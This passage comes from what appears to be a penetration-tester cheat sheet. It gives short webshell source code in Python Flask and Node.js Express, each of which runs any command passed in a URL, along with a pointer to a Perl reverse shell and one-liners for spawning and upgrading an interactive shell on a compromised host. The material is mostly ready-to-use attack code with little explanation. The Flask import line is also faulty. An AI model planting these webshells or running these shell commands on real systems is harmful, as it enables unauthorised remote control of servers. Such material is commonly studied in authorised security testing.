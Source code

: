 ```python
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
[views](https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py)

### nodejs

``` node
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl

Find and edit
```
locate perl-reverse-shell.pl
```

## Spawn tty via Python

``` python
python -c 'import pty;pty.spawn("/bin/bash")';
```

## Spawn an upgraded shell

```
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```
stty raw -echo; fg 
```

 